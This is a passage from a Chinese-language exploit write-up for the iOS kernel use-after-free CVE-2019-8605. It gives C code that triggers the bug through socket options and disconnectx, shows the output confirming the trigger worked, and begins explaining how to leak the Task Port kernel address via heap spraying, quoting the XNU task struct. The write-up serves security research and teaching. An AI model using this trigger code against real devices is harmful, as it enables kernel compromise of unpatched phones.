 此时的代码如下

```c
int main(int argc, char * argv[]) {
    int tcp_sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
    int minmtu = -1;
    setsockopt(tcp_sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu));
    struct so_np_extensions sonpx = {.npx_flags = SONPX_SETOPTSHUT, .npx_mask = SONPX_SETOPTSHUT};
    setsockopt(tcp_sock, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));
    disconnectx(tcp_sock, 0, 0);
    minmtu = 1;
    ret = setsockopt(tcp_sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu));
    if (ret) {
        printf("[-] setsockopt() failed, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    int mtu;
    get_minmtu(tcp_sock, &mtu);
    NSLog(@"%d\n", mtu);
    
    return UIApplicationMain(argc, argv, nil, appDelegateClassName);
}
```

相当成功

```
2021-01-20 00:26:04.136672+0800 CVE-2019-8605-iOS[650:238743] 1
```

## 4. 泄露Task Port内核态地址

UAF漏洞常规利用方案是堆喷分配到先前释放掉的空间，这样我们拥有的指针指向的空间数据就可控，接下来尝试泄露一个地址

按照Ned Williamson的思路来分析利用方案，以下的分析顺序并非按照Exp的顺序进行，大家可自行对照

- https://bugs.chromium.org/p/project-zero/issues/attachment?aid=403533&signed_aid=-2cO9Y7SDzmQNv1CHt6J3w==

那么我们泄露什么地址呢？

答案是：`Task Port`

为了解释说明什么是`Task Port`以及获取`Task Port`能干什么，这里先介绍XNU的Task

Task是资源的容器，封装了虚拟地址空间，处理器资源，调度控制等，对应的结构体如下，重点注意其中的`IPC structures`部分

```c
struct task {
	/* Synchronization/destruction information */
	decl_lck_mtx_data(,lock)		/* Task's lock */
	_Atomic uint32_t	ref_count;	/* Number of references to me */
	boolean_t	active;		/* Task has not been terminated */
	boolean_t	halting;	/* Task is being halted */
	/* Virtual timers */
	uint32_t		vtimers;

	/* Miscellaneous */
	vm_map_t	map;		/* Address space description */
	queue_chain_t	tasks;	/* global list of tasks */

	/* Threads in this task */
	queue_head_t		threads;

	...

	/* IPC structures */
	decl_lck_mtx_data(,itk_lock_data)
	struct ipc_port *itk_self;	/* not a right, doesn't hold ref */
```